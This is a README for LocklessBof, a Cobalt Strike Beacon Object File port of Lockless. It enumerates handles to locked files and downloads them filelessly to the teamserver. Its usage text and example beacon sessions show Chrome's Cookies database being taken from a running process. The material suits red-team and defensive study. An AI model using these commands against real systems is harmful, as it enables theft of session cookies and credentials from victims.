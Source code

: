 # LocklessBof
A Beacon Object File (BOF) implementation of [Lockless](https://github.com/GhostPack/Lockless) by [HarmJ0y](https://github.com/HarmJ0y), designed to enumerate open file handles and facilitate the fileless download of locked files. Within this project, you'll find two BOFs: LocklessEnum and LocklessDownload.

## LocklessEnum
LocklessEnum can be used to enumerate open file handles to a locked file. Upon detecting an open file handle, LocklessEnum supplies the user with information including the associated Process ID (PID) and the handle ID, which can then be supplied as input to LocklessDownload to download the locked file. 
### LocklessEnum Usage
```
Usage: lockless-enum <filename> <processname>
Example: 
   lockless-enum Cookies 
   lockless-enum Cookies Chrome
lockless-enum Options: 
    <filename> -    (Required): The locked file's name.
    <processname> - (Optional): Narrow handle enumeration to the specified process. A partial name match is allowed (e.g., 'chro' for 'chrome')
```
## LocklessDownload
LocklessDownload can be used to download locked files. LocklessDownload requires the Process ID of the target process containing the open file handle, along with either the handle ID of the open file handle for the target file, or the filename to be downloaded. 
### LocklessDownload Usage
```
Usage: lockless-download <pid> <key> <value> <options>
Example:
   lockless-download 789 filename Cookies 
   lockless-download 789 handle_id 696
   lockless-download 789 handle_id 696 /copy C:\Users\<user>\AppData\Local\cookies123.tmp
lockless-download Options:
    <pid> -     	(Required): Process ID (PID) of the target application, queried for handles to desired locked file
    <key> -     	(Required): This can either be 'filename' or 'handle_id'
    <value> -   	(Required): If 'filename' is chosen, provide the full name of the file to be downloaded. The filename is case sensitive
                            If 'handle_id' is chosen, provide the handle ID to the locked file to be downloaded
    /copy -      	(optional): If the /copy switch is included, the file will be copied to disk. If not included, the file will filelessly be download to the cobalt strike teamserver. 
    <outputFile> - 	(optional): Full output path of file (ex: C:\Users\<user>\AppData\Local\cookies123.tmp)
    ");

```
## Example
Find out which process has a handle to the locked "Cookies" file and retrieve the handle id
```
beacon> lockless-enum Cookies
[+] host called home, sent: 6088 bytes
[+] received output:
Attempting to enumerate handle to file Cookies from  processes
[+] received output:
Process ID 2940 [Handle ID 1092] - Cookies [\Device\HarddiskVolume3\Users\defaultuser\AppData\Local\Google\Chrome\User Data\Profile 1\Network\Cookies]
```
Download the locked "Cookies" file using the identified pid and handle id
```
beacon> lockless-download 2940 handle_id 1092
[+] host called home, sent: 8796 bytes
[+] received output:
Attempting file download using handle_id 1092 from Process ID 2940
[+] received output:
Found file handle!
[+] received output:
File size is 524288

[*] started download of Cookies (524288 bytes)
[*] download of Cookies is complete
[+] received output:
Downloaded file Cookies from process ID: 2940
```
Download the locked "Cookies" file using the file name
```
beacon> lockless-download 2940 filename Cookies
[+] host called home, sent: 8810 bytes
[+] received output:
Attempting file download of filename Cookies from Process ID 2940
[+] received output:
Found file handle!
[+] received output:
File size is 524288

[*] started download of Cookies (524288 bytes)
[*] download of Cookies is complete
[+] received output:
Downloaded file Cookies from process ID: 2940
```
## References
[ProcessListHandles](https://github.com/trustedsec/CS-Remote-OPs-BOF/tree/main/Remote/ProcessListHandles) by [TrustedSec](https://github.com/trustedsec)  
[Lockless](https://github.com/GhostPack/Lockless) by [HarmJ0y](https://github.com/HarmJ0y)  
[Fileless download](https://github.com/fortra/nanodump) by [Fortra](https://github.com/fortra)  
Also big thanks to [KingOfTheNOPs](https://github.com/KingOfTheNOPs) for helping me resolve access mask issues with the handles. 
